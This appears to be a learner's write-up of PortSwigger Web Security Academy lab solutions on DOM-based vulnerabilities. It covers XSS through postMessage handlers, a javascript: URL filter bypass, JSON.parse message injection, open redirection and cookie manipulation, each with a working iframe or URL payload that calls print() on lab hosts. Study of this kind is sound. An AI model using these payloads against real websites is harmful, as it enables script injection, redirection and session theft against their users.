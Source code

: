 ### Lab: DOM XSS using web messages
Explanation:
Let's say we have our own html page.
On our page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        console.log(e.data);
    })
</script>
```
And some kind of a button, that when clicked it executes the following code:
```bash
window.postMessage("hello world")
```
So whenever that button is clicked it consoles log "hello world"

So even though `window.postMessage` can be used cross site, it can also be used on the same site.

Definition from MDN: The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it.

#### Exploiting the lab:
On the main page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
And we have:
```bash
<div id='ads'>
```
Which means whatever we are going to pass to window.postMessage(), is going to be injected (via `innerHtml = e.data`) onto the page.

So we create a new page on the server that we control and we paste the following:
```bash
<iframe src="https://0a9c008e037b9aae80e021720045005f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
That iframe will load vulnerable website inside the iframe and `onload` will execute `contentWindow.postMessage('<img src=1 onerror=print()>','*')`, and therefore `print()` is going to be executed.

All that is needed is for user to visit our page from the server that we control.

### Lab: DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

We have:
```bash
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Solution:
```bash
<iframe src="https://0a51008103b44997808c125400d50058.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### Lab: DOM XSS using web messages and JSON.parse
We have:
```bash
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

So I tried:
```bash
<iframe src="https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/" onload="this.contentWindow.postMessage('{"type": "load-channel", "url": "javascript:print()"}','*')">
```
It didn't work. Because " sign terminated the string that is opened after `onload` earlier. 

Here's the solution:
```bash
<iframe src=https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### Lab: DOM-based open redirection
The page has:
```bash
 <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

`location` object contains the value from the browser url bar as one of its properties.

To solve the lab we need to redirect a user (when they click on Back to Blog btn) to the exploit server. For that purpose we need to modify the url in the following way:
```bash
https://0ac400ec04f118e280002b5b00db00fa.web-security-academy.net/post?postId=10&url=https://exploit-0a7100f70445184f80b82a2701920042.exploit-server.net/exploit
```
And the lab is solved


### Lab: DOM-based cookie manipulation
We have products and whenever we click on some product, the page with that product description is opened. It contains the following:
```bash
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
That website has a button: "Last viewed product":
```bash
<a href="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=3">Last viewed product</a>
```
The value that is placed in `<a href="...">` is taken from the `lastViewedProduct` cookie.

We can therefore try to escape `<a>` tag and append `<script>` after it:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>
```
As a result the value of cookie becomes:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&%27%3E%3Cscript%3Eprint()%3C/script%3E
```
After that when we go to the Home page here's what we find there:
```
<a href='https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>'>Last viewed product</a><p>|</p>
```
As you can see we have successfully escaped `<a>` tag.

The problem is that we still have to go to 2 different pages. First to a specific product page and later to the Home page. Iframe can help us with that.

Here's the lab solution:
```bash
<iframe src="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
So when it is first loaded it sets the value of the cookie with malicious js.
Then `onload` event is triggered and the victim is redirected to Home page. On the home page the value from malicious cookie is taken and js code is executed.

Note we need this `window.x=1` and of course `if(!window.x)` because we don't want `onload` to stuck in a loop. We only want it to be executed once.


